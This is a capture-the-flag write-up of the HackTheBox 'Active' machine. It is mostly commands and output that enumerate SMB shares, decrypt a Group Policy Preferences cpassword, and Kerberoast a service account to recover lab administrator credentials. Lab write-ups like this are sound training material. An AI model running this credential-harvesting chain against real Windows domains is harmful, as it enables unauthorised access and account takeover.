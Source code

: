 ```yaml
---
title: HackTheBox-Active
date: 2024-12-23 09:38:00 +/-TTTT
categories: [boxes, red-teaming]
tags: [gpp-decrypt, kerberoast]     # TAG names should always be lowercase
---
```


## SMB enum

    ➜  active nxc smb 10.10.10.100
    SMB         10.10.10.100    445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)

    ➜  active nxc smb 10.10.10.100 -u '' -p '' --shares
    SMB         10.10.10.100    445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
    SMB         10.10.10.100    445    DC               [+] active.htb\: 
    SMB         10.10.10.100    445    DC               [*] Enumerated shares
    SMB         10.10.10.100    445    DC               Share           Permissions     Remark
    SMB         10.10.10.100    445    DC               -----           -----------     ------
    SMB         10.10.10.100    445    DC               ADMIN$                          Remote Admin
    SMB         10.10.10.100    445    DC               C$                              Default share
    SMB         10.10.10.100    445    DC               IPC$                            Remote IPC
    SMB         10.10.10.100    445    DC               NETLOGON                        Logon server share
    SMB         10.10.10.100    445    DC               Replication     READ            
    SMB         10.10.10.100    445    DC               SYSVOL                          Logon server share                                                                                      
    SMB         10.10.10.100    445    DC               Users  

### xml file
    ➜  active cat Groups.xml 
    <?xml version="1.0" encoding="utf-8"?>
    <Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
    </Groups>

## gpp-decrypt 

    ➜  active gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

    name="active.htb\SVC_TGS

    SVC_TGS : GPPstillStandingStrong2k18

## shares again

    ➜  active nxc smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'
    SMB         10.10.10.100    445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
    SMB         10.10.10.100    445    DC               [+] active.htb\SVC_TGS:GPPstillStandingStrong2k18
    ➜  active nxc smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' --shares
    SMB         10.10.10.100    445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
    SMB         10.10.10.100    445    DC               [+] active.htb\SVC_TGS:GPPstillStandingStrong2k18
    SMB         10.10.10.100    445    DC               [*] Enumerated shares
    SMB         10.10.10.100    445    DC               Share           Permissions     Remark
    SMB         10.10.10.100    445    DC               -----           -----------     ------
    SMB         10.10.10.100    445    DC               ADMIN$                          Remote Admin
    SMB         10.10.10.100    445    DC               C$                              Default share
    SMB         10.10.10.100    445    DC               IPC$                            Remote IPC
    SMB         10.10.10.100    445    DC               NETLOGON        READ            Logon server share                                                                                      
    SMB         10.10.10.100    445    DC               Replication     READ            
    SMB         10.10.10.100    445    DC               SYSVOL          READ            Logon server share                                                                                      
    SMB         10.10.10.100    445    DC               Users           READ   

>if u have username:password GetUsersSPNs.

>if u have users list then go GetNPUsers

## Kerberoas

    ➜  active impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS


    Ticketmaster1968


and we got admin pass

    !!!IMPORTANT psexec,wmiexec or any other just for admins.

Video walkthrough
[WATCH!](https://youtu.be/njYbuCAJGno?si=291iRorni-030Wan)

